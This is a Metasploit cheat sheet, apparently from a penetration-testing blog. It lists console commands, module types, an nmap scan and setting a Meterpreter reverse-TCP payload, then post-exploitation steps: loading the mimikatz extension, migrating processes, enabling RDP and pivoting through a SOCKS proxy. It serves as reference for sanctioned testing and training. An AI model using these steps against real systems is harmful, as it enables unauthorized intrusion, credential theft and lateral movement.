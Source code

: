 ```yaml
---
title: CheatSheet - Metasploit
author: 4n3i5v74
date: 2020-12-01 09:00:00 +0530
categories: [CheatSheet, Metasploit]
tags: [cheatsheet, metasploit, pentest]
pin: true
---
```



## Initializing

- `msfdb init` - initialize database. `Msfconsole` supports only postgresql databases.
- `msfconsole -q` - quietly launch `msfconsole` without banner.
- `db_status` - check database connectivity from `msfconsole`


## Framework architecture

- Modules (exploit, payload, encoder, nop, auxiliary)
- Libraries (msf base, msf core, rex)
- Tools
- Plugins
- Interfaces (console, cli, rpc, gui & armitage)


## Commands

- `search` - search for modules
- `use` - use the module
- `info` - view info on module
- `connect` - netcat like command to check host connectivity
- `set` - change value of variable
- `setg` - change value of variable globally
- `get` - view value of variable
- `unset` - set null/no value to variable
- `spool` - write console output into a file as well the screen
- `save` - store the settings/active datastores to a settings file


## Modules

- `exploit` - most common module utilized, which holds all of the exploit code
- `payload` - module used hand in hand with exploits, contains the various bits of shellcode
- `auxiliary` - module commonly used in scanning and verification to see if machines are exploitable
- `post` - provides looting and pivoting after exploitation
- `encoder` - module commonly utilized in payload obfuscation, to modify the `appearance` of exploit and avoid signature detection
- `nop` - module used with buffer overflow and ROP attacks
- `load` - load different module


## Command examples and Navigation

- `db_nmap -Pn -T4 -sS -sV --top_ports 1000 <ip>` - nmap scan within `msfconsole` terminal
- `hosts` - host information gathered
- `services` - service infomation gathered
- `vulns` - vulnerability information gathered
- `search multi/handler` - search for module `multi/handler`
- `use 6` - use `6`th result from search
- `set PAYLOAD windows/meterpreter/reverse_tcp` - set payload as meterpreter reverse tcp
- `use icecast` - use `icecast` payload, if no payload configured for use in `icecast`, `windows/meterpreter/reverse_tcp` will be used
- `options` - check currently set variables for use in exploit
- `exploit` - start exploit and gain shell, `meterpreter` shell if default
- `sessions` - get existing backgrounded sessions
- `jobs` - get existing backgrounded job runs


## Post-exploitation

The following commands are used in `meterpreter` shell across a `windows` target.

- `sessions -u 1` - upgrade session 1 to meterpreter shell
- `ps` - list running processes
- `migrate <pid>` - migrate from exploited process to another running process
- `getuid` - get current username
- `sysinfo` - system information
- `getprivs` - get current privileges
- `ipconfig` - get ip information
- `load kiwi` - load latest version of mimikatz extension
- `upload test c:\user\test\desktop` - upload file
- `run post/windows/gather/checkvm` - run post script to check if target is a VM
- `run post/multi/recon/local_exploit_suggester` - run post script to check suggested exploits
- `run post/windows/manage/enable_rdp` - run post script to try to enable rdp
- `shell` - spawn a shell to interact with target internally
- `bg` - background the meterpreter shell



## Network options

- `run autoroute -h` - run post script on how to use autoroute to configure target networking
- `search server/socks` - search available socks module
- `use server/socks5` - initiate a socks proxy server from meterpreter terminal

